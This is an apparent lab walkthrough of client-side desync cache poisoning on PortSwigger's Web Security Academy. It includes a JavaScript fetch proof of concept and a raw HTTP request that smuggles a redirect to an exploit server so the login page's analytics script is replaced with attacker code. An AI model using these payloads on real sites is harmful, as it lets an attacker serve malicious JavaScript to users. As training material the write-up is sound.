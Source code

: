 > Note:
>  
> When testing this attack in a browser, make sure you clear your cache between each attempt (**Settings > Clear browsing data > Cached images and files**).

#### Poisoning the cache with a redirect

Once you've [found a CSD vector](https://portswigger.net/web-security/request-smuggling/browser/client-side-desync#probing-for-client-side-desync-vectors) and [confirmed that you can replicate it in a browser](https://portswigger.net/web-security/request-smuggling/browser/client-side-desync#building-a-proof-of-concept-in-a-browser), you need to identify a suitable [redirect gadget](https://portswigger.net/web-security/request-smuggling/exploiting#using-http-request-smuggling-to-turn-an-on-site-redirect-into-an-open-redirect). After that, poisoning the cache is fairly straightforward.

First, tweak your proof of concept so that the smuggled prefix will trigger a redirect to the domain where you'll host your malicious payload. Next, change the follow-up request to a direct request for the target JavaScript file.

The resulting code should look something like this:

```html
<script>
    fetch('https://vulnerable-website.com/desync-vector', {
        method: 'POST',
        body: 'GET /redirect-me HTTP/1.1\r\nFoo: x',
        credentials: 'include',
        mode: 'no-cors'
    }).then(() => {
        location = 'https://vulnerable-website.com/resources/target.js'
    })
</script>
```

This will poison the cache, albeit with an infinite redirect back to your script. You can confirm this by viewing the script in a browser and studying the **Network** tab in the developer tools.

> Note:
>  
> You need to trigger the follow-up request via a top-level navigation to the target domain. Due to the way browsers partition their cache, issuing a cross-domain request using `fetch()` will poison the wrong cache.

**In the login page, there's a JavaScript file is being imported:**
```html
[...]
<script type="text/javascript" src="/resources/js/analytics.js"></script>
[...]
```

Now, **what if we poison the request and hijack that JavaScript import??**

**Let's go back to the pair of grouped tabs you used to identify the desync vector earlier.**

**Then, in the attack request, modify the `GET /404pls` prefix with a prefix that will trigger the malicious redirect gadget:**
```http
POST /../ HTTP/1.1
Host: 0a4c002e03e58448c00fdcfe00e90072.h1-web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

GET //exploit-0af6007803d9848ac020db8601250091.exploit-server.net/ExPlOiT HTTP/1.1
X-Foo: x
```
